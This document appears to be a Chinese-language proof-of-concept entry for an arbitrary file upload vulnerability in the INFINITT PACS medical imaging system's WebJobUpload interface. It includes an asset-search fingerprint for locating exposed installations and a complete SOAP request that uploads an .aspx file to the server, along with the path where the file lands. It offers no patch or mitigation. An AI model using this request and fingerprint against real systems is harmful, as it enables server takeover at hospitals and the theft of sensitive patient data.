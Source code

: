 # 英飞达影像存档与通讯(PACS)系统INFINITT PACS WebJobUpload存在任意文件上传漏洞

# 一、漏洞简介
英飞达是一家专业开发医学影像系统的公司，成立于1994年，早年PACS产品双子星：EFILM和PiviewSTAR，其中PiviewSTAR为我公司产品。2011年于KOSDAQ上市。产品覆盖放射、超声、内镜、病理、电生理、放疗等所有检查医技科室，生态支持单院区、多院区、区域、医联体、集团化、移动端、云端、互联网应用。客户数量多，全球6000多客户的选择，美国中小医院KLAS排第一，台湾前二，日本前三，另有德国，英国，中东，巴西，东南亚等多个地区设有分公司。中国三甲医院数量前三，西南、西北区优质客户数量第一。INFINITT PACS WebJobUpload接口存在任意文件上传漏洞 ，攻击者可通过该漏洞获取服务器权限，严重甚至导致医院的敏感病人数据泄露。

# 二、影响版本
+ 英飞达影像存档与通讯(PACS)系统INFINITT PACS

# 三、资产测绘
+ hunter`web.icon="0cd46e0cba3abd067cd28e70eb7f2a5f"`
+ 特征

![1710050678798-3d2b7109-13a0-46c1-aa6a-f84048d5ce82.png](./img/8DdfWo-hBXKeoTtD/1710050678798-3d2b7109-13a0-46c1-aa6a-f84048d5ce82-135359.png)

# 四、漏洞复现
```plain
POST /webservices/WebJobUpload.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://rainier/jobUpload"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<jobUpload xmlns="http://rainier">
<vcode>1</vcode>
<subFolder></subFolder>
<fileName>2.aspx</fileName>
<bufValue>MTIz</bufValue>
</jobUpload>
</soap:Body>
</soap:Envelope>
```

![1710050894692-a465d756-5bf4-4db3-88b1-7c5c27a607f8.png](./img/8DdfWo-hBXKeoTtD/1710050894692-a465d756-5bf4-4db3-88b1-7c5c27a607f8-425462.png)

```plain
/1/2.aspx
```

![1710050917663-a92660df-3fce-4504-a866-51789deb2860.png](./img/8DdfWo-hBXKeoTtD/1710050917663-a92660df-3fce-4504-a866-51789deb2860-606481.png)



> 更新: 2024-05-15 15:36:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wu6h6bbwq3zx751r>